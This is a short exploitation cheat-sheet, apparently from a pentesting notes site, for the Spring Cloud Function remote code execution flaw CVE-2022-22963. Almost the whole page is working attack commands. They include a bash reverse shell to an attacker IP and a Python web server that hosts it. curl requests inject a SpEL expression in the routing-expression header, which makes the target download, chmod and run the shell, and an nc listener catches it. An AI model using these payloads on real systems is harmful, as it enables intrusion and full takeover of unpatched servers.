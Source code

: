 ```yaml
---
title: Spring Cloud Function RCE
description: Spring Cloud Function is vulnerable to RCE (CVE-2022-22963)
tags:
    - Web
refs:
    - https://github.com/me2nuk/CVE-2022-22963
date: 2023-03-14
draft: false
---
```


## Exploitation

### Reverse Shell

First create a reverse shell script in local machine.

```bash
#!/bin/bash
bash -i >& /dev/tcp/10.0.0.1/4444 0>&1
```

Then start a web server for uploading it.

```bash
python3 -m http.server
```

Now remote code execution with target website as below.

```bash
curl -X POST  https://example.com:8080/functionRouter -H 'spring.cloud.function.routing-expression:T(java.lang.Runtime).getRuntime().exec("wget http://10.0.0.1/shell -O /tmp/shell")' --data-raw 'data' -v
```

Our reverse shell script is uploaded.  
Start a listener in local machine.

```bash
nc -lvnp 4444
```

Remote code execution again to reverse shell.

```bash
# As needed
curl -X POST  https://example.com:8080/functionRouter -H 'spring.cloud.function.routing-expression:T(java.lang.Runtime).getRuntime().exec("chmod +x /tmp/shell")' --data-raw 'data' -v

curl -X POST  https://example.com:8080/functionRouter -H 'spring.cloud.function.routing-expression:T(java.lang.Runtime).getRuntime().exec("bash /tmp/shell")' --data-raw 'data' -v
```

We should get a shell.
